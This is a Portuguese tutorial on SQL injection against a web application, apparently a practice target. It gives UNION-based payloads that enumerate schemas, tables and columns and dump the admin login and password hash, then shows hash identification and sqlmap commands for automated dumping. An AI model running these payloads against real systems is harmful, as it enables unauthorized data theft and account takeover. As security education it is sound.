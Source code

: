 # SQL Injection - Atacando o Servidor 💉

### Lista o nome dos bancos de dados:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata

Retorna `bancocn,information_schema` que são os dois bancos que o usuário tem permissões.

### Lista o nome de tabelas dentro de um banco de dados:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="bancocn"

Retorna `categories,pictures,status,users`.

### Lista colunas das tabelas:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"

Retorna `id,login,password`.

### Lista os dados das colunas:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(login) from users

Retorna `admin`.


* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(password) from users

Retorna o hash da senha do usuário `admin`.


### Bônus

Podemos também executar o seguinte comando:

* bancocn.com/cat.php?id=-1 union select 1,2,group_concat(id, ": ",login,": ",password) from users

Para termos o retorno: `1: admin: <hash da senha do usuário admin>`.


## Hash Identifier

```bash
hash-identifier

HASH: <hash>
```

    Possible Hashs:
    [+] MD5
    [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))


Descriptografado o hash, podemos acessar o seu conteúdo e utilizar as credenciais para acessar o painel administrativo do bancocn.com

## Automatizando o SQL Injection

Podemos também utilizar a ferramenta `sqlmap` para automatizar o processo de SQL Injection.

```bash
sqlmap -u "http://www.bancocn.com/cat.php?id=1"
```


```bash
sqlmap -r <cookies.txt>
```

* u: URL do site;
* r: Ler arquivo contendo os cookies do navegador;

##### Após terminada a injeção SQL pela ferramenta podemos executar os seguintes comandos:

* --dbs: Lista os bancos de dados do arquivo passado;
* -D <database> --tables: Lista as tabelas do banco de dados;
* -T <tablename> --columns: Lista as colunas da tabela do banco de dados;
* -C <column1,column2,column3> --dump: Realiza o `dump` das informações desejadas;